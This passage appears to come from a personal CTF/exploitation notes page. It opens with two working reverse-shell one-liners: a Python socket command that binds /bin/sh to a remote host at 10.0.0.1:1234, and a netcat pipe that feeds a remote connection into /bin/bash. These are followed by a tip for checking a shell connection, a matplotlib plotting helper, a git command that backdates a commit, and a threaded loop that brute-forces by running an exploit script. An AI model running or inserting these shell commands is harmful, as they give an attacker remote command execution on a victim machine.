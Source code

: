 python:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

netcat:
```bash
nc 192.168.1.1 4444 | /bin/bash | nc 192.168.1.1 5555
```

## Connection Check
1. When you can run any command, Use sleep to hang the shell.
2. Try p.read(even there is no responding data)

## Python Figures 

```python
def graph(x1,y1,eb1,x2=None,y2=None,eb2=None,Name='Default.jpg'):
    fig = plt.figure()
    plt.errorbar(x1,y1,fmt='ro--',yerr=eb1,capsize=10,ecolor="red",alpha=0.5,label="Oracle")
    if(x2 and y2 and eb2):
        plt.errorbar(x2,y2,fmt='bo--',yerr=eb2,capsize=10,ecolor="blue",alpha=0.5,label="Orgr")
    plt.xlabel("Number of choice", fontdict=font)
    plt.ylabel("Time Cost in s", fontdict=font)
    plt.title("Time Cost for Per Run (What if we have more than 5 choice)", fontdict=font)
    plt.legend(loc='upper left',fontsize=20)
    plt.show()
```

## git commit amend

`git commit --amend --date "Sun Dec  4 20:35:02 EST 2021"`

## multithread exp

```python
from threading import Thread
from os import system
from pwn import *
def wrapper(i):
	try:
		for x in range(0x40):
			if(x%0x10==i):
				system("python ./eax.py {}".format(x))
	except:
		print("AP")
tab= []
for x in range(0x10):
	tab.append(Thread(target= wrapper, args=(x,)))
for x in range(0x10):
	tab[x].start()
while(1):
	sleep(0x10)
```


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: ../code/CompileAsmwithGcc/
